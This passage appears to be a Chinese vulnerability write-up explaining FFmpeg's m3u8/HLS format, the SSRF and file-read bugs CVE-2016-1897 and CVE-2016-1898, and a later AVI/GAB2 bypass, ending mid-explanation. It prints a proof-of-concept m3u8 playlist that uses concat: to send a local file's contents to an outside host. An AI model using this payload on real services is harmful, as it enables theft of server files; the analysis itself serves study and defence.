 或者：

	#EXTM3U
	#EXT-X-MEDIA-SEQUENCE:0
	#EXTINF:10.0,
	test.ts   # 也可以是真正的视频资源
	#EXT-X-ENDLIST

**注释**

	#EXTM3U:  每个M3U文件第一行必须是这个tag。
	#EXTINF:指定每个媒体段(ts)的持续时间，这个仅对其后面的URI有效，每两个媒体段URI间被这个tag分隔开，其格式如下：
		#EXTINF:<duration>,<title>  ：duration表示持续的时间（秒）”Durations MUST be integers if the protocol version of the Playlist file is less than 3“，否则可以是浮点数。
	#EXT-X-MEDIA-SEQUENCE：每一个media URI 在 PlayList中只有唯一的序号，相邻之间序号+1。
        #EXT-X-MEDIA-SEQUENCE:<number>：一个media URI并不是必须要包含的，如果没有，默认为0。
 	#EXT-X-ENDLIST：表示PlayList的末尾了，它可以在PlayList中任意位置出现，但是只能出现一个，格式如下：
        #EXT-X-ENDLIST

## 4&emsp;漏洞分析 ##

该漏洞主要还是利用了去年的 CVE-2016-1897 和 CVE-2016-1898，一个 SSRF 和一个任意文件读取漏洞，其中 SSRF 用到的就是 m3u8 可以访问获取远程资源的特性。

**CVE-2016-1897**

![ffmpeg]({{ site.baseurl }}/images/ffmpeg/3.png)

**CVE-2016-1898**

因为FFmpeg扩展性极强，其中支持一个 Physical concatenation protocol concat: 可以把多个 url 流合并访问资源：

	concat:URL1|URL2|…|URLN

结合 SSRF ，我们可以把 file:// 读到的内容发送出来。

	#EXTM3U
	#EXT-X-TARGETDURATION:6
	#EXTINF:10.0,
	concat:http://rr.sb/poc/header.m3u8|file:///tmp/vuln  
	#EXT-X-ENDLIST

![ffmpeg]({{ site.baseurl }}/images/ffmpeg/4.png)

之后官方在2.8.5版本修复了该漏洞。

而这个漏洞则是绕过了这次修复，继续利用这两个漏洞达到任意文件读取。

在上个月的 phdays conference 里，通过视频格式的一个 trick bypass 了厂商对 SSRF 的封堵。 

奇怪的视频格式标准

在 AVI 视频中，有一个数据块可以定义字幕，叫做 GAB2 ，位置于 AVI header 中，有趣的是 m3u8 可以插入到 avi 文件中，且 FFmpeg 依旧会对有文件头 `#EXTM3U` 的 AVi 视频做 HLS 处理。

利用思路如下： 将 m3u8 嵌入到带有 GAB2 的AVI视频中，对文件格式检查进行 bypass 。 因为之前说过，m3u8 并不是真正的视频资源，所以如果要播放，必须还要在 m3u8 中嵌入一个可播放的视频资源，其中有一个古老的媒体格式 XBin，这个媒体格式具备基本显示图片，文本的功能，体积非常小，最重要的是，这个媒体格式可编程，如果嵌入到 m3u8 中，将目标文件作为对象，用 xbin 绘制成为字符，就可以作为合法可播放的视频文件观看了，所以依次嵌套后，文件内容大致为：
